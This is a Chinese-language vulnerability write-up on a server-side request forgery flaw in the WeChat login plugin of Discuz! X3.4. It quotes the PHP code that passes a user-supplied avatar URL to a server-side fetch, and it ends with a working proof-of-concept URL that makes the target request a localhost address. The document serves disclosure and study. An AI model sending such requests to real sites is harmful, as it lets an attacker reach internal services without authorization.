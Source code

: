 ```yaml
---
title: "Discuz x3.4 Weixin Plugin ssrf"
id: zhfly2874
---
```


# Discuz! X3.4 Weixin Plugin ssrf

## 一、漏洞简介

## 二、漏洞影响

Discuz! X3.4

## 三、复现过程

`source/plugin/wechat/wechat.class.php` `WeChat`类`syncAvatar`方法：

```
 static public function syncAvatar($uid, $avatar) {

```
 if(!$uid || !$avatar) {
        return false;
    }

    if(!$content = dfsockopen($avatar)) {
        return false;
    }

    $tmpFile = DISCUZ_ROOT.'./data/avatar/'.TIMESTAMP.random(6);
    file_put_contents($tmpFile, $content);

    if(!is_file($tmpFile)) {
        return false;
    }

    $result = uploadUcAvatar::upload($uid, $tmpFile);
    unlink($tmpFile);

    C::t('common_member')-&gt;update($uid, array('avatarstatus'=&gt;'1'));

    return $result;
} 
``` 
```

`source/plugin/wechat/wechat.inc.php` 中调用了`WeChat::syncAvatar`，直接用`$_GET['avatar']`作为参数传进去：

```
......

elseif(($ac == ‘register’ && submitcheck(‘submit’) || $ac == ‘wxregister’) && $_G[‘wechat’][‘setting’][‘wechat_allowregister’]) {

```
 ......

    $uid = WeChat::register($_GET['username'], $ac == 'wxregister');

    if($uid &amp;&amp; $_GET['avatar']) {
        WeChat::syncAvatar($uid, $_GET['avatar']);
    } 
``` `}` 
```

不过因为这里用到了微信登录的插件，所以要利用的话需要目标站开启微信登录：

![image](../img/41828cc82eeded53ce109c60fa192880.png)

这里 SSRF 的构造很简单，直接在`avatar`参数构造 url 即可（只是注意`wxopenid`参数每次请求都要足够随机保证没有重复，如果重复的话代码是无法走到发起请求的逻辑的）：

### poc

```
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http://localhost:9090/dz-weixin-plugin-ssrf&wxopenid=dont_be_evil 
```

![image](../img/b511b065a6c823682f017490b819f237.png)